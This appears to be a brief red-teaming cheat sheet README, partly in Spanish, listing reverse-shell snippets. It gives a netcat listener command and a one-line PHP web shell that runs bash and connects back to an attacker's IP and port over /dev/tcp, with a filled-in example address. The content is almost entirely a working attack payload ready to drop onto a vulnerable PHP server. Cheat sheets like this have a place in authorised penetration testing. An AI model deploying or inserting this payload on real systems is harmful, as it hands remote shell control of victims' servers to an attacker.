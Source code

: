 # red_cheatsheet
Un torpedo para cosas de red teaming

# Reverse Shells

## Netcat Receiver
```
nc -lvnp [receiving port]
```

## Minimal php
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/[IP]/[port] 0>&1'");
```

Example:
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.1.2.3/1234 0>&1'");
```
